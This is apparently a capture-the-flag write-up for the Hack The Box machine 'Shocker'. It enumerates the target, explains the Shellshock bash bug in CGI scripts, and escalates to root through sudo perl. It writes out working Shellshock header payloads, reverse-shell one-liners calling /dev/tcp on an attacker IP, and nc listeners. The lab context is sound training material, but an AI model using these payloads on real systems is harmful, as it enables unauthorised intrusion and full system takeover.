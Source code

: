 # Shocker HTB(https://app.hackthebox.com/machines/108)

![shocker-01]()


Lets add the target to our `/etc/hosts` file:

![hosts-02]()


Now we can use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- shocker.htb -oN nmap.result
```

![nmap-res-03]()

We have the following:

+ An Apache V2.4.18 Server on port 80.
+ An SSH server on port 2222.


Lets take a look at the web server and see what we can find. 


## Apache port 80

Lets open our browser and navigate towards `http://shocker.htb`

![site-04]()

Not much to see or do here, lets try directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/common.txti:FUZZ  -u http://shocker.htb/FUZZ
```

![ffuf-05]()


We can see we have a few interesting results. Primarly, the scan confirmed that CGI is enabled on the 
target. We could potentially exploit this. 

Certain versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

On such scenario is with cgi scripts. Sometimes cgi scripts store data received from HTTP headers inside 
enviorenment varaibles in order to generate dynamic content. Since we can control the data passed in the 
HTTP headers, we can leverage this to gain RCE.

To pull this off, we need to find a valid cgi script we can execute via the browser. From the `ffuf` scan
we can see that we dont have permissions to view the contents of the `cgi-bin` directory, so we have to 
enumerate some more. 

I use `ffuf` again, this time adding the `-e` switch to scan for possible file extensions:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://shocker.htb/cgi-bin/FUZZ -e .cgi,.php,.sh,.py,.pl
```

![script-06]()


We got something. Lets check if its vulnerable:

```bash
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; echo; echo pwned"
```

![vuln-07]()

It is. Now we can use a one liner reverse shell to get access to the system. 

First set up the listener: 

```
rlwrap nc -lnvp 443
```

Exploit with:

```
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.117/443 0>&1"
```

![shell-08]()


## Privilege Escalation

Lets look for easy wins, like our `sudo` permissions:

```bash
sudo -l
```

![sudo-09]()


WE can see we are allowed to run Perl. If we can run a scripting language as root, escalation is fairly trivial:

```perl
sudo perl -e 'exec "/bin/sh";'
```

![root-10]()


From here we can setup another `nc` listener and upgrade this shell with:

```bash
bash -i >& /dev/tcp/<kali-ip>/9001 0>&1
```

![full-root-11]()

